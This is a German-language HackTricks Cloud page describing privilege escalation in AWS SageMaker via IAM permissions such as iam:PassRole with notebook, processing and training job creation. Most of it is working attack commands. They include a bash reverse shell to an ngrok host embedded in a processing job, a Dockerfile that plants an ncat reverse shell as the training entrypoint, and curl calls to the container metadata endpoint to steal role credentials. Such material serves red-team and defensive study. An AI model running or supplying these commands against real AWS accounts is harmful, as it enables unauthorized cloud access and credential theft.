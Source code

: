 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Beginnen Sie mit der Erstellung eines Notebooks mit der IAM-Rolle, die daran angehängt ist:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Die Antwort sollte ein Feld `NotebookInstanceArn` enthalten, das die ARN der neu erstellten Notizbuchinstanz enthält. Wir können dann die API `create-presigned-notebook-instance-url` verwenden, um eine URL zu generieren, die wir verwenden können, um auf die Notizbuchinstanz zuzugreifen, sobald sie bereit ist:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigieren Sie mit dem Browser zur URL und klicken Sie auf \`Open JupyterLab\` im oberen rechten Bereich, scrollen Sie dann zum Tab „Launcher“ und klicken Sie im Abschnitt „Other“ auf die Schaltfläche „Terminal“.

Jetzt ist es möglich, auf die Metadatenanmeldeinformationen der IAM-Rolle zuzugreifen.

**Potenzielle Auswirkungen:** Privesc auf die angegebene sagemaker-Dienstrolle.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Wenn bereits Jupyter **Notebooks darauf ausgeführt werden** und Sie sie mit `sagemaker:ListNotebookInstances` auflisten können (oder sie auf andere Weise entdecken). Sie können **eine URL für sie generieren, auf sie zugreifen und die Anmeldeinformationen stehlen, wie in der vorherigen Technik angegeben**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potenzielle Auswirkungen:** Privesc zur Sagemaker-Dienstrolle, die angehängt ist.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Ein Angreifer mit diesen Berechtigungen kann **sagemaker einen Processing-Job ausführen** lassen, der mit einer Sagemaker-Rolle verbunden ist. Der Angreifer kann die Definition des Containers angeben, der in einer **AWS verwalteten ECS-Kontoinstanz** ausgeführt wird, und **die Anmeldeinformationen der angehängten IAM-Rolle stehlen**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potenzielle Auswirkungen:** Privesc auf die angegebene sagemaker-Dienstrolle.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Ein Angreifer mit diesen Berechtigungen wird in der Lage sein, einen Trainingsjob zu erstellen, **ein beliebiges Container** darauf auszuführen mit einer **angehängten Rolle**. Daher wird der Angreifer in der Lage sein, die Anmeldeinformationen der Rolle zu stehlen.

{% hint style="warning" %}
Dieses Szenario ist schwieriger auszunutzen als das vorherige, da Sie ein Docker-Image erstellen müssen, das die rev shell oder Anmeldeinformationen direkt an den Angreifer sendet (Sie können keinen Startbefehl in der Konfiguration des Trainingsjobs angeben).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potenzielle Auswirkungen:** Privesc auf die angegebene sagemaker-Dienstrolle.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Ein Angreifer mit diesen Berechtigungen wird (potenziell) in der Lage sein, einen **Hyperparameter-Trainingsjob** zu erstellen, **einen beliebigen Container** darauf auszuführen und eine **angehängte Rolle** zu verwenden.\
_Ich habe es aufgrund von Zeitmangel nicht ausgenutzt, aber es sieht ähnlich aus wie die vorherigen Exploits. Fühlen Sie sich frei, einen PR mit den Ausnutzungsdetails zu senden._

## Referenzen

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
